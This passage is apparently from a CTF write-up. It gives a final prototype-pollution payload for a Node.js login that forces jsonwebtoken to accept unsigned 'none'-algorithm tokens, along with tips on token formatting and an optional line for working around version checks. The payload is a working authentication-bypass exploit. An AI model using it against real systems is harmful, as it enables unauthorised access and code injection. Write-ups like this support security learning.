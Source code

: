 3. Finally, after creating a jwt token with none algorithm, please check if it ends with `.` first and appending one if not, BEFORE sending that token to server, or else you can get a `Invalid signature` error

**Final payload**

(Well it's the same as the payload at the start of this section but whatever, i'm lazy to scroll up so :D)
```js
{
	username: {
		"sus": "no",
		"__proto__.secretOrKeyProvider": "[Circular (username.__lookupGetter__)]",
		"__proto__.algorithms": ["none"],
		"__proto__.algorithm": "none",
		"__proto__.alg": "none",
		// "__proto__.isValid": "[Circular (username.constructor)]",
	},
	password: "any"
}
```

**P/S:**

What's this line for?
```js
// "__proto__.isValid": "[Circular (username.constructor)]"
```

Only use it if you tried the attack and couldn't get the flag/inject code due to 500 (Internal Server Error) because some `jsonwebtoken` version [checks every schema it passes and check if it's valid, including prototypes](https://github.com/auth0/node-jsonwebtoken/issues/945), hence can throw error if `__proto__.isValid` is missing (not a function).